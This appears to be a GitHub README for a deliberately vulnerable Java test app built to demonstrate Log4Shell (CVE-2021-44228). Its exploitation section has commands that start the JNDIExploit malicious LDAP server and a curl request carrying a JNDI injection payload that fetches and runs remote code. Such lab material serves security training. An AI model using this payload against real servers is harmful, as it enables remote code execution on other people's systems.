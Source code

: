 # TekiumLog4jApp v1.0

Author: Erick Rodríguez 

Email: erickrr.tbd93@gmail.com, erodriguez@tekium.mx

License: GPLv3

Application developed in Java that simulates an application vulnerable to CVE-2021-44228. 

It uses Log4j 2.11.1 and JDK 1.8.0_181.

![TekiumLog4jApp](https://github.com/erickrr-bd/TekiumLog4jApp/blob/master/screens/screen.jpg)

# Running

Run it:

`docker run --name tekiumlog4japp -p 8080:8080 d0ck3rt3k1umhub/tekiumlog4japp:v1`

Build the Docker image by yourself:

`docker build . -t tekiumlog4japp`

`docker run -p 8080:8080 --name tekiumlog4japp tekiumlog4japp`

# Exploitation Steps

<i>Note: This project is inspired by the <a href="https://github.com/christophetd/log4shell-vulnerable-app">christophetd</a> project.</i>

JNDIExploit.v1.2.zip is included in the repository as it was apparently removed from Github.

- Use <a href="https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip">JNDIExploit</a> to spin up a malicious LDAP server

`wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip`

`unzip JNDIExploit.v1.2.zip`

`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888`

- Then, trigger the exploit using:

`curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC90ZWtpdW1fcHJ1ZWJhLnR4dA==}'`

- Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

![TekiumLog4jApp](https://github.com/erickrr-bd/TekiumLog4jApp/blob/master/screens/response.jpg)

- To confirm that the code execution was successful, notice that the file /tmp/tekium_prueba.txt was created in the container running the vulnerable application:

`docker exec tekiumlog4japp ls /tmp`

# Commercial Support
![Tekium](https://github.com/unmanarc/uAuditAnalyzer2/blob/master/art/tekium_slogo.jpeg)

Tekium is a cybersecurity company specialized in red team and blue team activities based in Mexico, it has clients in the financial, telecom and retail sectors.

Tekium is an active sponsor of the project, and provides commercial support in the case you need it.

For integration with other platforms such as the Elastic stack, SIEMs, managed security providers in-house solutions, or for any other requests for extending current functionality that you wish to see included in future versions, please contact us: info at tekium.mx

For more information, go to: https://www.tekium.mx/

